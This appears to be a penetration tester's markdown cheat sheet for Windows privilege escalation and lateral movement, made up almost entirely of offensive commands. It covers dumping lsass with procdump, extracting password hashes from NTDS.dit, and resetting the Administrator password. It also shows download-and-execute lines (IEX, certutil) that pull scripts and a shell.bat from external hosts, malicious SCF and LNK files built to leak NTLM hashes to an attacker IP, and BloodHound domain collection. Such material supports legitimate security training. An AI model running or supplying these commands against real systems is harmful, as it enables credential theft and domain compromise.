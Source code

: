 ```yaml
---
description: >-
  After gaining a foothold, elevating our privileges will provide more options
  for persistence and may reveal information stored locally that can further our
  access within the environment.
---
```


# Windows Privilege Escalation

#### Enumeration

<details>

<summary>Basic commands</summary>

```bash
# IP
ipconfig /all

# ARP
arp -a

# Route
route print

# Running processes
tasklist /svc

# Enviroment variables
set

# Systeminfo
systeminfo

# Show hotfixes
wmic qfe

# Installed programs
wmic product get name
```

</details>

```bash
# Installed programs
wmic product get name

# Netstat -ano
netstat -ano
netstat -ano | findstr 6064

# Check privileges
whoami /priv

# Check groups
whoami /groups

# Get all users
net user

# Details group
net localgroup administrators

# Robocopy copy files
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

#### Lateral movemnt

```bash
# Check group members
net localgroup administrators

# Runas
runas /netonly /user:ZENCORP\username powershell

# Change administrator password
net user Administrator test123
```

#### Enumeration Powershell

```powershell
# Windows defender status
Get-MpComputerStatus

# Get hotfixes
Get-HotFix | ft -AutoSize

# Install programs
Get-WmiObject -Class Win32_Product |  select Name, Version

# Get process
get-process -Id 3324
```

#### Powershell

```powershell
# Use mssqclient
mssqlclient.py sql_dev@10.129.43.30 -windows-auth

# Use procdump for memory dump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Extracting Credentials from NTDS.dit
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

# Query events command line
wevtutil qe Security /rd:true /f:text | Select-String "/user"

# Host a script and run on target
IEX (iwr 'http://10.10.10.11/procmon.ps1') 

# Transfer file
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

#### Use Responder or Inveight to capture hashes with malicious .lnk or .scf file

Malicious SCF File

```bash
# Save as @name.scf
/[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Malicious LNK File

```powershell
# Create in powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### SharpHound

```powershell
# Download ps1 file
iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")

# Collect
invoke-bloodhound -collectionmethod all -domain zen.local -ldapuser username -ldappass password
```

#### Bloodhound-python

```bash
bloodhound-python -d zen.local -u username -p password-gc zen.local -c all -ns 10.10.10.22
```

#### Windows privileges

* Fullpowers: [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)
* PrintSpoofer: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* GodPotato: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
* JuicyPotato: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

#### Dump a process with ProcDump

```powershell
# Procdump
.\procdump64 -ma 6252 -accepteula

# or with powersploit
Out-Minidump.ps1
menu
get-process -id 6252 | Out-Minidump
```
